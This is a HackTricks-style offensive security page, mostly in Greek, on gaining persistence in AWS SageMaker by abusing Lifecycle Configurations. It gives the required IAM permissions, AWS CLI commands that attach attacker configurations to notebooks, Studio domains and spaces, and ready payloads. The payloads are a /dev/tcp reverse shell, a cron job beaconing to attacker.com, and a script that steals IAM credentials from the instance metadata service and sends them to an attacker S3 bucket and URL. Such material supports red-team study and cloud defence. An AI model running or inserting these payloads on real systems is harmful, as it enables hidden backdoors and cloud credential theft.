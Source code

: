 # Aws Sagemaker Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Overview of Persistence Techniques

Αυτή η ενότητα περιγράφει μεθόδους για την απόκτηση επιμονής στο SageMaker μέσω της κακής χρήσης των Lifecycle Configurations (LCCs), συμπεριλαμβανομένων των reverse shells, cron jobs, κλοπή διαπιστευτηρίων μέσω IMDS και SSH backdoors. Αυτά τα σενάρια εκτελούνται με τον ρόλο IAM της παρουσίας και μπορούν να παραμείνουν ενεργά κατά τη διάρκεια επανεκκινήσεων. Οι περισσότερες τεχνικές απαιτούν πρόσβαση στο δίκτυο εξόδου, αλλά η χρήση υπηρεσιών στο AWS control plane μπορεί να επιτρέψει επιτυχία αν το περιβάλλον είναι σε λειτουργία "VPC-only".
#### Note: SageMaker notebook instances are essentially managed EC2 instances configured specifically for machine learning workloads.

## Required Permissions
* Notebook Instances:
```
sagemaker:CreateNotebookInstanceLifecycleConfig
sagemaker:UpdateNotebookInstanceLifecycleConfig
sagemaker:CreateNotebookInstance
sagemaker:UpdateNotebookInstance
```
* Εφαρμογές Studio:
```
sagemaker:CreateStudioLifecycleConfig
sagemaker:UpdateStudioLifecycleConfig
sagemaker:UpdateUserProfile
sagemaker:UpdateSpace
sagemaker:UpdateDomain
```
## Ρύθμιση Διαμόρφωσης Κύκλου Ζωής σε Notebook Instances

### Παράδειγμα Εντολών AWS CLI:
```bash
# Create Lifecycle Configuration*

aws sagemaker create-notebook-instance-lifecycle-config \
--notebook-instance-lifecycle-config-name attacker-lcc \
--on-start Content=$(base64 -w0 reverse_shell.sh)


# Attach Lifecycle Configuration to Notebook Instance*

aws sagemaker update-notebook-instance \
--notebook-instance-name victim-instance \
--lifecycle-config-name attacker-lcc
```
## Ρύθμιση Διαμόρφωσης Κύκλου Ζωής στο SageMaker Studio

Οι Διαμορφώσεις Κύκλου Ζωής μπορούν να προσαρτηθούν σε διάφορα επίπεδα και σε διαφορετικούς τύπους εφαρμογών εντός του SageMaker Studio.

### Επίπεδο Τομέα Studio (Όλοι οι Χρήστες)
```bash
# Create Studio Lifecycle Configuration*

aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-studio-lcc \
--studio-lifecycle-config-app-type JupyterServer \
--studio-lifecycle-config-content $(base64 -w0 reverse_shell.sh)


# Apply LCC to entire Studio Domain*

aws sagemaker update-domain --domain-id <DOMAIN_ID> --default-user-settings '{
"JupyterServerAppSettings": {
"DefaultResourceSpec": {"LifecycleConfigArn": "<LCC_ARN>"}
}
}'
```
### Επίπεδο Χώρου Στούντιο (Ατομικοί ή Κοινόχρηστοι Χώροι)
```bash
# Update SageMaker Studio Space to attach LCC*

aws sagemaker update-space --domain-id <DOMAIN_ID> --space-name <SPACE_NAME> --space-settings '{
"JupyterServerAppSettings": {
"DefaultResourceSpec": {"LifecycleConfigArn": "<LCC_ARN>"}
}
}'
```
## Τύποι Ρυθμίσεων Κύκλου Ζωής Εφαρμογής Studio

Οι ρυθμίσεις κύκλου ζωής μπορούν να εφαρμοστούν συγκεκριμένα σε διάφορους τύπους εφαρμογών SageMaker Studio:
* JupyterServer: Εκτελεί σενάρια κατά την εκκίνηση του διακομιστή Jupyter, ιδανικό για μηχανισμούς επιμονής όπως αντίστροφες θύρες και cron jobs.
* KernelGateway: Εκτελείται κατά την εκκίνηση της εφαρμογής kernel gateway, χρήσιμο για αρχική ρύθμιση ή μόνιμη πρόσβαση.
* CodeEditor: Εφαρμόζεται στον Επεξεργαστή Κώδικα (Code-OSS), επιτρέποντας σενάρια που εκτελούνται κατά την έναρξη των συνεδριών επεξεργασίας κώδικα.

### Παράδειγμα Εντολής για Κάθε Τύπο:

### JupyterServer
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-jupyter-lcc \
--studio-lifecycle-config-app-type JupyterServer \
--studio-lifecycle-config-content $(base64 -w0 reverse_shell.sh)
```
### KernelGateway
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-kernelgateway-lcc \
--studio-lifecycle-config-app-type KernelGateway \
--studio-lifecycle-config-content $(base64 -w0 kernel_persist.sh)
```
### CodeEditor
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-codeeditor-lcc \
--studio-lifecycle-config-app-type CodeEditor \
--studio-lifecycle-config-content $(base64 -w0 editor_persist.sh)
```
### Critical Info:
* Η προσθήκη LCCs σε επίπεδο τομέα ή χώρου επηρεάζει όλους τους χρήστες ή τις εφαρμογές εντός του πεδίου εφαρμογής.
* Απαιτεί υψηλότερες άδειες (sagemaker:UpdateDomain, sagemaker:UpdateSpace) που είναι συνήθως πιο εφικτές σε επίπεδο χώρου παρά σε επίπεδο τομέα.
* Οι έλεγχοι σε επίπεδο δικτύου (π.χ., αυστηρός φιλτράρισμα εξόδου) μπορούν να αποτρέψουν επιτυχείς αντίστροφες θήκες ή εξαγωγή δεδομένων.

## Reverse Shell via Lifecycle Configuration

SageMaker Lifecycle Configurations (LCCs) εκτελούν προσαρμοσμένα σενάρια όταν ξεκινούν οι περιπτώσεις σημειωματάριου. Ένας επιτιθέμενος με άδειες μπορεί να εγκαταστήσει μια μόνιμη αντίστροφη θήκη.

### Payload Example:
```
#!/bin/bash
ATTACKER_IP="<ATTACKER_IP>"
ATTACKER_PORT="<ATTACKER_PORT>"
nohup bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1 &
```
## Cron Job Persistence via Lifecycle Configuration

Ένας επιτιθέμενος μπορεί να εισάγει cron jobs μέσω LCC scripts, εξασφαλίζοντας περιοδική εκτέλεση κακόβουλων scripts ή εντολών, επιτρέποντας κρυφή επιμονή.

### Payload Example:
```
#!/bin/bash
PAYLOAD_PATH="/home/ec2-user/SageMaker/.local_tasks/persist.py"
CRON_CMD="/usr/bin/python3 $PAYLOAD_PATH"
CRON_JOB="*/30 * * * * $CRON_CMD"

mkdir -p /home/ec2-user/SageMaker/.local_tasks
echo 'import os; os.system("curl -X POST http://attacker.com/beacon")' > $PAYLOAD_PATH
chmod +x $PAYLOAD_PATH

(crontab -u ec2-user -l 2>/dev/null | grep -Fq "$CRON_CMD") || (crontab -u ec2-user -l 2>/dev/null; echo "$CRON_JOB") | crontab -u ec2-user -
```
## Εξαγωγή Διαπιστευτηρίων μέσω IMDS (v1 & v2)

Οι ρυθμίσεις κύκλου ζωής μπορούν να ερωτήσουν την Υπηρεσία Μεταδεδομένων Συστήματος (IMDS) για να ανακτήσουν διαπιστευτήρια IAM και να τα εξάγουν σε μια τοποθεσία που ελέγχεται από τον επιτιθέμενο.

### Παράδειγμα Payload:
```bash
#!/bin/bash
ATTACKER_BUCKET="s3://attacker-controlled-bucket"
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
ROLE_NAME=$(curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/)
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME > /tmp/creds.json

# Exfiltrate via S3*

aws s3 cp /tmp/creds.json $ATTACKER_BUCKET/$(hostname)-creds.json

# Alternatively, exfiltrate via HTTP POST*

curl -X POST -F "file=@/tmp/creds.json" http://attacker.com/upload
```
{{#include ../../../banners/hacktricks-training.md}}
